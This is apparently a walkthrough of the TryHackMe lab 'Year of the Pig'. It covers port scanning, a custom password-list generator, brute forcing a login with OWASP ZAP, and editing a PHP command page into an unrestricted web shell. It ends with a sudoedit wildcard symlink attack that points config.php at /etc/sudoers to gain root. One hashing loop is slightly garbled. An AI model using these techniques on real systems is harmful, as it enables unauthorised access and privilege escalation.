Year of the Pig is a TryHackMe challenge released on October 9th, 2020, by MuirlandOracle. Throughout the challenge, we will explore the repurcussions of having a password hint, automating the creation of a custom password list using Python, brute forcing a login page with OWASP ZAP, pivoting between three different users on the system, and exploiting a sudoedit wildcard path vulnerability using a symbolic link attack.
Port Scanning
As always, we are going to begin enumerating this machine as a non-privileged user with nmap. By running the command below, we can see the machine's open, accessible ports.
We get the following output from our basic nmap scan:
# Nmap 7.80 scan initiated Sun Oct 11 10:01:33 2020 as: nmap -Pn -sCV -p- -oN nmap/Basic_10.10.104.243.nmap 10.10.104.243
Nmap scan report for 10.10.104.243
Host is up (0.69s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Marco's Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 11 10:01:52 2020 -- 1 IP address (1 host up) scanned in 19.29 seconds
A few important things we can tell from these two open ports:
An SSH server is open. As an attacker, we see this as a possible entry point to the server once we have valid user credentials. But since we don't have any information on internal users, we will just keep this in the back of our minds for now.
Since there isn't much we can do with SSH at the moment, the HTTP service running on a default port will most likely be our only method of breaking and entering.
The webpage title hosted at this address is Marco's Blog, hinting at the possibility that a user named Marco may exist on the system.
Without looking further into how the system works, we can already begin devising an attack vector for the host: foothold with HTTP, use SSH for remote code execution, then pivot or escalate privileges to system root. Of course, this is easier said than done and there can be several twists and turns along the way. Before we get too ahead of ourselves, we will begin manually enumerating the website hosted at this address.
Inspecting the Webpage
Index - Marco's Blog
The landing page is a fun little autobiography about a retired Italian Airforce pilot who began developing his website as a hobby. There are three sections of the website that only scratch the surface about the many adventures he's had.
From the attacker's perspective, I am more interested in finding the faults here. Begin brute forcing the site's directories to see if there are any hidden pages we currently don't have access to. I will be using Gobuster in the following command:
gobuster dir -u <IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html,.php -o recon/gobuster-basic.txt
From the output, we find that the usual protected root directory files are in place such as .htaccess and .htpasswd, but I am more interested in /admin, /api, /assets, /js, and /login.php. Since there are plenty of directories and pages to enumerate, I am going to begin with the lowest hanging fruit: /admin.
/Admin and /Login.php
Navigating to http://MACHINE_IP/admin results in a redirect to /login.php. We don't have access to that page at the moment.

Since we know that this blog belongs to Marco, I will try a few simple login attempts like marco:admin, marco:password, and even admin:admin, but I get a password hint when making the first attempt:

The password hint is oddly specific. If we are completely relying on the password hint, the password is going to appear exactly as described. The problem is we aren't sure what counts as a memorable word in Marco's book, or if we would be able to find his password in a wordlist, so we are going to need a ton of guesses to choose from. More specifically, 5,600 of our own guesses. The next section describes how we will automate this with Python.
The Foothold
Creating Our Own Password Dictionary
Now, we have three ingredients for how Marco creates his passwords:
One word
Two numbers
A special character
Instead of typing out a list of possible password combinations, we can automate this process entirely with Python. Below is a small python script I made to automate the creation of a wordlist specifically catered to Marco's password methodology:
memorableWords = ['Italy', 'italy', 'Milan', 'milan', 'Savoia', 'savoia',
'Curtiss', 'curtiss', 'Curtis', 'curtis', 'planes', 'Planes',
'Plane', 'plane']
specialChars = ['!','@','#','$']
count = 0
for word in memorableWords:
for specialChar in specialChars:
while (count <= 99):
if (count <= 9):
count = '0' + str(count)
else:
count = str(count)
print(word + count + specialChar)
count = int(count)
count += 1
count = 0
First, initialize the ingredients:
memorableWords: An array of password prefixes as strings.
specialChars: An array of special characters that are typically password-field acceptable.
count: Used to iterate numbers 00 through 99 in place of the two-number requirement.
We use two for loops to iterate through both lists and increment the count variable with each iteration to ensure we get all possible two-digit combinations. Before the end of each for loop iteration, a possible password is printed.
Run the above python script in a terminal with the command below to pipe the output into a list file.
python generateList.py > passwords_generated.lst
A snippet of the resulting list file:

There were 5,600 potential passwords generated all the way from Italy00! to plane99$. That would have been a pain to type by hand.
Brute Forcing the Login
Up to this point, we have a list of possible passwords that are applicable to only a specific user and a login page. This section describes how we will put these two together.
For brute forcing the login with our custom wordlist, we will be using OWASP ZAP, a web application penetration testing tool similar to Burp Suite, except it is completely free and open source. The reason I am using ZAP for this engagement is due to the fact that we are using a wordlist containing 5,600 guesses and Burp will heavily throttle your brute force speed around 100 guesses if you aren't a premium user.
Launch OWASP ZAP. I will be using Foxy Proxy to direct traffic to 127.0.0.1: the address that ZAP is intercepting packets on.

For future reference, the above screenshot is what my current ZAP layout looks like. It is the default workspace, so new users can access this same screen at startup.
At the login page, try logging in with any credentials. In my case, I am using marco:password.
When going back to ZAP, there are fields populated on the small left-hand pane. One of them being the POST request intercepted when attemping to login to the webpage.

Notice how the password is not the same as entered in the login field. In its place is a hash. Upon further enumeration using inspect element on the login page, there is some obfuscated javascript code being run on our end:
Of course, this code makes no sense when getting down to the details of how it works due to the obfuscation, but we can at least deduct that important part of it.
Hash all of our generated passwords using MD5 and pipe the hashes into a new password list.
while read -r passwords_generated.txt; do printf %s "$line" | md5sum | cut -f1 -d' '; done < passwords.lst

Back at ZAP, right click the POST login request and select Attack > Fuzz.
A window opens for you to specify the exact fuzz location. Select the entire password hash payload and click Add on the right-hand pane to add this as a fuzz location.

Another window will open that asks for a wordlist you would like to use. Select Add and paste the list of possible MD5 combinations into the Contents text field. Confirm all changes and select Start Fuzzer.

In order to quickly tell if we have brute forced the correct credentials, I have sorted each POST request by Size Resp. Body to determine if there are any unusually large or small "success" pages being output on an attempt. From what we can tell early on in the brute forcing process, a normal response is 63 bytes in size. However, we receive one reponse that is 99 bytes in size. Viewing the reponse body of this request shows that we have successfully guessed the correct credentials on the 2,022nd try.

Finally, we have the MD5 password hash that marco authenticates with. Searching for this exact hash in our password.lst file translates the hash into plaintext, and we can now log in with our valid credentials.
Authenticated Web Enumeration
Up to this point, we have a user to log in as at the website and can begin enumerating internally. Upon logging in, we are presented with some simple configurations like add user, delete user, and change password. What stands out here is the Commands section of the admin panel. Navigating to this page brings us to a field where we can potentially execute arbitrary commands on the server as www-data.

It was unsettling how easily this RCE section of the admin panel was handed to us. whoami and id works to see who we are executing commands as, but not to my surprise, that's pretty much the extent of useful commands we can execute from this interface. Looking deeper into this at the moment would be considered a rabbit hole.
SSH: Marco
Marco's credentials for gaining access to his website's admin panel are the same for logging into the system as marco, meaning we can ssh into the host as Marco.
ssh marco@<IP>
Flag1.txt is present in his home directory.

Marco is not able to run sudo commands, so my initial method of escalating privileges was shot down swiftly. Upon further enumeration, there is another user on the system, curtis, and an admin.db file located in /var/www. By naming convention, this is the database file that contains all of the site's user hashes, which means that we have a path of pivoting into curtis' account who may have more privileges that we do. However, we are unable to view the database file because it is owned by www-data. Our only choice now is to figure out a way to break the RCE constraints on the commands.php page.
Pivoting to WWW-Data
Located in /var/www/html/admin is the commands.php file that is used for RCE on the admin panel. It happens to be owned by www-data and the web-developers group, which we happen to be a part of. Here is a snippet of the current commands.php source code:
<?php
//Totally useless script to catch hackers out, eh, Marco? You old rogue!
if (isset($_POST["command"])){
echo "<pre>";
$cmd=$_POST["command"];
if (strlen($cmd) == 0){
echo "No command entered";
}
else if ($cmd == "whoami"){
echo "www-data";
}
else if ($cmd == "id"){
echo "uid=33(www-data) gid=33(www-data) groups=33(www-data)";
}
else if ($cmd == "ifconfig"){
system("ifconfig");
}
else if (substr($cmd,0,5) == "echo "){
echo substr($cmd,5);
}
else if ($cmd == "hostname"){
echo "year-of-the-pig";
}
else if (stristr($cmd,"nc")){
preg_match("/\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3} +\d{1,5}/", $cmd, $string);
$components = explode(" ", $string[0]);
$ip = $components[0];
$port = end(array_values($components));
system("nc $ip $port >/dev/null 2>&1");
}
else{
echo "Invalid Command!";
}
echo "<pre>\n";
}
?>
We are going to edit this so that a command gets executed without constraint. Here is the modified php file that will allow us to execute far more commands without an error being thrown:
<?php
//Totally useless script to catch hackers out, eh, Marco? You old rogue!
if (isset($_POST["command"])){
echo "<pre>";
$cmd=$_POST["command"];
if (strlen($cmd) == 0){
echo "No command entered";
}
else if ($cmd == "whoami"){
echo "www-data";
}
else if ($cmd == "id"){
echo "uid=33(www-data) gid=33(www-data) groups=33(www-data)";
}
else if ($cmd == "ifconfig"){
system("ifconfig");
}
else if (substr($cmd,0,5) == "echo "){
system($cmd);
}
else if ($cmd == "hostname"){
echo "year-of-the-pig";
}
else{
system($cmd);
}
echo "<pre>\n";
}
?>
At the end of the chain of if statements, notice that we changed the else body from echo "Invalid Command!"; to system($cmd); in order to gain full RCE.
After updating the commands.php file to allow full RCE, we can run cat on the admin.db file to read its contents from the commands page.

Cracking Curtis' Hash
From the output of the cat command on admin.db using the admin panel's web shell, we can view both Marco and Curtis' password hashes. The first time I tried cracking this hash, I used John and that didn't seem to do the trick, so for this CTF, we are using hashes.com. Input curtis' hash in the text box and a plaintext password is returned in seconds.

Obtaining Root
Flag2.txt is present in Curtis' home directory.
Once ssh'd into Curtis' session, we can begin enumeration under his privileges. Running sudo -l showed an interesting sudo permission:

This PoC on Github explains that having wildcards in a sudoedit target path makes the system vulnerable to a symbolic link attack. This means that we can potentially link config.php from the sudoedit wildcard path to a sensitive file we can write to. So the question is, if we can write to any file on the system, how can we become root?
The path specified in our sudo ability can be translated to any two-level subdirectories containing config.php. Since config.php does not exist in this wildcard path, we have to create it ourselves as a symbolic link.
Navigate back to the website admin panel's commands page.
Run ln -s /etc/sudoers /var/www/html/assets/img/config.php
We are using /var/www/html/assets/img/config.php because it is two subdirectories below /var/www/html and we can modify files in this directory only as www-data.
Navigate to /var/www/html/assets/img as Curtis. At this directory, there should be a config.php file linking to /etc/sudoers.

Now, as Curtis, run the sudoedit command specified from sudo -l
sudoedit /var/www/html/*/*/config.php
Add curtis ALL=(ALL) ALL under the User privilege specification section.